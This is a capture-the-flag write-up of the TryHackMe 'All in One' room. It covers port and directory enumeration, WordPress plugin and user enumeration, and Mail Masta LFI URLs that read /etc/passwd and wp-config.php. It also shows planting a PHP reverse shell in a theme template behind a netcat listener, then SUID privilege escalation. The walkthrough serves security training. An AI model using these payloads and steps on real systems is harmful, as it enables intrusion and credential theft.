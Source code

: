 ## All in one by [i7md](https://tryhackme.com/p/i7md)

The challenge is ALL In One which was kinda fun and covers basics of privilege escalation and web exploitation.

Once the machine was launched I did an nmap scan to find what ports were open.

nmap -sC -sV -A -O 10.10.228.32 > scan.txt
cat scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-13 04:21 EST
Nmap scan report for 10.10.228.32
Host is up (0.17s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.46.232
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
|_  256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/13%OT=21%CT=1%CU=42345%PV=Y%DS=2%DC=T%G=Y%TM=5FD5DD
OS:41%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT       ADDRESS
1   165.35 ms 10.8.0.1
2   165.49 ms 10.10.228.32

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.75 seconds

In the scan we can see there are 3 ports open FTP, SSH and http on 21, 22 and 80 respectivley.

For FTP we can try to connect using 
ftp 10.10.228.32 
username: Anonymous
Password -> none
ftp> ls
gave me no files on the ftp

So move foreward to ssh we dont have any usernames or passwords. 
Lets check the website hosted on port 80

once we open it we will be welcomed with Apache default page. Hmmm... 

We can try GoBuster to find the hidden directories.  

gobuster dir -u http://10.10.228.32/ -w /usr/share/dirb/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt

Gave me hidden pages
1. /hackathons
2. /wordpress
Hmm once we open http://10.10.228.32/hackathons we find clues related for Vigenere Cipher. 
Once we open source code at bottom we can see commented cipher with key below it and running it in dcode.fr/vigener-cipher we get
Try H@ckme@123 as deciphered text.

And we then open /wordpress we can find it is just simple wordpress default page so we can try to enumerate wordpress using WPSCAN

First I kind did All Plugins scan

wpscan --url http://10.10.228.32/wordpress/ --enumerate ap > Allpluginscan.txt

Which gave me:

[32m[+][0m mail-masta
 | Location: http://10.10.228.32/wordpress/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.228.32/wordpress/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://10.10.228.32/wordpress/wp-content/plugins/mail-masta/readme.txt

[32m[+][0m reflex-gallery
 | Location: http://10.10.228.32/wordpress/wp-content/plugins/reflex-gallery/
 | Latest Version: 3.1.7 (up to date)
 | Last Updated: 2019-05-10T16:05:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.1.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://10.10.228.32/wordpress/wp-content/plugins/reflex-gallery/readme.txt

 Which Mail-masta has Local File Inclusion and Reflex-gallery with Arbitary File upload.

 Then can try to enumarate Username using wpscan with 'u' flag.
wpscan --url http://10.10.228.32/wordpress/ --enumerate u > wpscanUsersEnum.txt

And when we see the scan results we can find 

[i] User(s) Identified:

[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.228.32/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

 User name elyana.

 Now using the LFI we found in [exploit](https://www.exploit-db.com/exploits/40290) on exploit db we can use the following url to get local files.
 
 http://server/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Gave me /etc/passwd. Now we can try to ge the dataabase file. But we need to base64 decode the entire file tho. 

http://10.10.228.32/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

And decoding the base64 to text we can see the plain text passwords of elyana with password TryH@m3

Now we can login with credentials to http://10.10.223.32/wordpress/wp-admin

We now have access to wordpress admin panel. Now we can create a reverse shell by editing an existing template with [php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell).

I edited 404.php template with reverse shell php code with my system IP address on port 4444

Before opening the page we have to open netcat listner on port 4444

nc -lvp 4444

And now we access the page to make the reverse shell
By accessing the page http://10.10.228.32/wordpress/wp-content/themes/twentytwenty/404.php

And if we check our console we can see the reverse shell being done and now we have system access.

To find the User.txt I tried to 
cd /home/elyana && cat User.txt

But I was denied permission. So I had to look at my permissions.

but I kinda got lucky here as I try to do /bin/nash -p can have look at here for [GTFObins](https://gtfobins.github.io/) every time to see if there is any wrong SUID config set. 

Viola! It straight up gave me straight up root access xD

Now I can see every single flag both User.txt and Root.txt in /home/elyana and /root/root.txt.

### Finally this was fun challenge tho except for the part were I got lucky xD
